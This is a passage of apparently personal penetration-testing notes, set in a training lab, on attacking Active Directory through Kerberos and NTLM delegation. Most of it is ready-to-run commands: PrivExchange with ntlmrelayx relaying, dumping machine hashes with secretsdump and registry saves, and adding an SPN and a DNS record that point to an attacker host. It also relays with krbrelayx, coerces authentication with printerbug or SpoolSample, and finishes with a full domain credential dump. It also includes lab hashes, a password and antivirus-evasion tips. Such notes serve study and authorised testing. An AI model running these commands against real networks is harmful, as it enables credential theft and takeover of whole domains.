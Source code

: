     - Another Method - PrivExchange - Getting Exchange Server to Authenticate to You:
        - Check:
            - sudo responder -I tun0 -Av
            - python3 privexchange.py -d MEGACORP -u snovvcrash -p 'Passw0rd!' -ah <attackerIP> --attacker-page '/test/test/test' exch01.megacorp.local --debug
        - Exploit:
            - ntlmrelayx.py -t ldap:- DC01.megacorp.local --escalate-user snovvcrash --no-smb-server --no-wcf-server --no-raw-server --no-dump --no-da --no-acl --no-validate-privs
            - python3 privexchange.py -d MEGACORP -u snovvcrash -p 'Passw0rd!' -ah <attackerIP> exch01.megacorp.local --debug

    - **Best Method - krbrelayx.py locally (good w/ antivirus):
        - https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/kerberos/delegation-abuse/kud
        - Doesn't run code on the tgt system we control - good for AV evasion
        - Dump Machine Hash:
            - Remote:
                - secretsdump.py [prod.corp1.com]/Offsec:lab@192.168.235.75 -ts
            - Local:
                - reg.exe save hklm\system system.hive
                - reg.exe save hklm\security security.hive
                - secretsdump.py -system system.hive -security security.hive LOCAL
        - Add SPN:
            - python3 addspn.py -u prod.corp1.com\\APPSRV01\$ -p aad3b435b51404eeaad3b435b51404ee:482b2b2b64ea57683719dc3465524fb8 -s HOST/attacker.prod.corp1.com -q <DCIP>
            - python3 addspn.py -u prod.corp1.com\\APPSRV01\$ -p aad3b435b51404eeaad3b435b51404ee:482b2b2b64ea57683719dc3465524fb8 -s HOST/attacker.prod.corp1.com <DCIP>
            - python3 addspn.py -u prod.corp1.com\\APPSRV01\$ -p aad3b435b51404eeaad3b435b51404ee:482b2b2b64ea57683719dc3465524fb8 -s HOST/attacker.prod.corp1.com <DCIP> --additional
        - Add DNS Record pointing to attacker:
            - python3 dnstool.py -u 'prod.corp1.com\APPSRV01$' -p aad3b435b51404eeaad3b435b51404ee:482b2b2b64ea57683719dc3465524fb8 -r attacker.prod.corp1.com -d <ATTACKER_IP> --action add <DCIP>
            - confirm (after waiting a minute):  nslookup attacker.prod.corp1.com <DC01_IP>
        - Relay:
            - (using AES key of owned computer acct from secretsdump)
            - sudo python3 krbrelayx.py -aesKey e7b9ad06f6769c1fb7c3e1a84866523fa4bdeb4d28dfd636d742ce3d8cccb209
        - Trigger:
            - python3 printerbug.py prod.corp1.com/APPSRV01\$@<DCIP> -hashes aad3b435b51404eeaad3b435b51404ee:482b2b2b64ea57683719dc3465524fb8 attacker.prod.corp1.com
            - Or:  SpoolSample.exe CDC01 attacker.prod.corp1.com
        - Use:
            - export KRB5CCNAME=pwd/'CDC01$@PROD.CORP1.COM_krbtgt@PROD.CORP1.COM.ccache'
            - echo '<DCIP> CDC01.prod.corp1.com' >> /etc/hosts
            - secretsdump.py CDC01.prod.corp1.com -dc-ip <DCIP> -just-dc -k -no-pass


### Constrained Delegation (2003)
    - *allows access as any domain user (including DA) to the specified backend service (after compromising the frontend service) - can likely lead to RCE depending on the backend service
        - **Altservice option can provide access to any service on the backend box (and almost certainly RCE as DA)
    - limits the scope that the service can perform authentication to
        - uses the S4U2Self and S4U2Proxy extensions - 2x TGS are requested (for frontend and backend services) on behalf of the user
    - set on the user or computer object through the msds-allowedtodelegateto property by specifying SPNs delegation is allowed to
    - **doesn't require user interaction** (unless frontend uses Kerberos auth and we're forwarding the TGS)
        - By compromising an account that has constrained delegation enabled, we can gain access to all the services configured through the msDS-AllowedToDelegateTo property. If the TRUSTED_TO_AUTH_FOR_DELEGATION value is set, we can do this without user interaction.
    - **Goal**: pick a user that's in the Domain/Enterprise Admins group for generating the ticket
    - *won't work for users that are configured as “sensitive for delegation” (the USER_NOT_DELEGATED attribute is set to true) or for members of the Protected Users group
